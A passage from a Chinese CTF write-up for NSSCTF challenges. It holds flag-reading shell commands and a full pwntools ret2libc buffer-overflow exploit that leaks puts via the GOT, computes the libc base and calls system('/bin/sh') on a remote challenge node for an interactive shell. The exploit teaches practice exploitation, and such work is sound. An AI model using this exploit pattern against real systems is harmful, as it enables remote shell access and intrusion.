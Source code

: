```
EXPOSE 5000
```
该命令表示将容器内部的 5000 端口暴露出来，允许外部网络连接到该端口。
> 这种做法是错误的，不愧是大佬。。。

```python
find / -name "flag.txt"
/flag.txt
cat /flag.txt
NSSCTF{123456}
```
## 狠狠的溢出涅
> 记得栈对齐，忘记多少字节了，直接ljust填充

```python
payload1=b""
payload1 = payload1.ljust(offset,b'\x00')
```
```python
from pwn import *
from LibcSearcher import *
io = remote('node5.anna.nssctf.cn',28610)
#io = process('./pwn4')
#context.log_level ='debug'
elf = ELF('./pwn4')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

offset = 0x68
pop_rdi = 0x4007d3

payload1=b""
payload1 = payload1.ljust(offset,b'\x00')
payload1 +=   p64(pop_rdi) + p64(puts_got) +  p64(puts_plt) + p64(main_addr)

io.sendline(payload1)

io.recvuntil(b'Ok,Message Received\n')
puts_addr = u64(io.recv(6,timeout=1).ljust(8,b'\x00'))
print(hex(puts_addr))

libc = ELF('./libc-2.31.so')
#libc = elf.libc

base = puts_addr - libc.symbols['puts']

system_addr = base +  	libc.symbols['system']
binsh_addr  = base +  next(libc.search(b'/bin/sh'))

payload2 =b""
payload2 = payload2.ljust(offset,b'\x00')
payload2 +=  p64(pop_rdi) + p64(binsh_addr) + p64(0x400556) + p64(system_addr) 

io.sendline(payload2)
io.interactive()
```
## 口算题
> 逐行提前脚本即可
